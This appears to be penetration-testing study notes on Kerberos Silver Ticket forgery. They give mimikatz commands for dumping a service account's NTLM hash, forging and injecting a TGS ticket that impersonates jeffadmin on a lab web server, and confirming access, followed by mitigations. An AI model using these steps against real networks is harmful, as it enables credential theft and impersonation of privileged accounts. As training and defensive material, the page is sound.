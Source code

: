 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Silver Tickets

## **Concept**

**Silver Tickets** are forged [Kerberos](broken-reference) **TGS** tickets created using the **NTLM hash of a service account**, such as `iis_service`. These tickets can **impersonate any user** (e.g., `jeffadmin`) with **arbitrary group memberships** and are **accepted by services like HTTP or SMB** **without contacting the DC** — making this an **offline attack**.

This works because service tickets are encrypted using the service account’s key (NTLM hash). If an attacker possesses that hash, they can craft a ticket that looks legitimate to the service, even though it was never issued by the DC.

Silver Tickets are most effective when **PAC (Privilege Attribute Certificate) validation** is **not enforced**, which is common. However, post-October 2022 patches introduced `PAC_REQUESTOR` **validation**, which adds constraints when forging tickets for **non-existent** users.

## **Attack**

{% tabs %}
{% tab title="1. Hash Extraction" %}
Extract the service account hash from a system where the service account (e.g., `iis_service`) is logged in.

```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
...
yamlCopyEditUser Name : iis_service
NTLM      : 4d28cf5252d39971419580a51484ca09
SID       : S-1-5-21-1987370270-658905905-1781884369-1109
...
```
{% endtab %}

{% tab title="2. Domain SID" %}
Get the domain Securidy Identifier (SID).

```powershell
> whoami /user
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
```
{% endtab %}

{% tab title="3. Forge & Inject" %}
Forge and inject the Silver Ticket on the target SPN, e.g. `HTTP/web04.corp.com`.

{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
{% endcode %}
{% endtab %}

{% tab title="4. Confirm" %}
Confirm the ticket injection.

```powershell
> klist
Client: jeffadmin @ corp.com
Server: http/web04.corp.com @ corp.com
```

Verify access to the target service.

```powershell
> iwr -UseDefaultCredentials http://web04
StatusCode        : 200
StatusDescription : OK
```
{% endtab %}
{% endtabs %}

> _A common mistake regarding this attack is forging a ticket for a user that doesn’t exist in AD or using an incorrect SPN format — **remember, SPNs like****&#x20;****`HTTP/web04.corp.com`****&#x20;****follow a Kerberos naming convention, not a URL format (e.g.,****&#x20;****`http://web04.corp.com`****)**, and are case-sensitive in some configurations._

## **Mitigation**

* Enforce **PAC validation** on high-value services.  If enforced, services verify user info with the DC. Rarely enabled but shuts down Silver Ticket abuse.
* Limit and monitor **local admin access** on application servers.
* Enable **LSA Protection** to block credential theft via Mimikatz.
* Monitor for:
  * Kerberos tickets with unusually long lifetimes
  * Abnormal group memberships in TGS
  * Services accepting tickets never seen by the DC
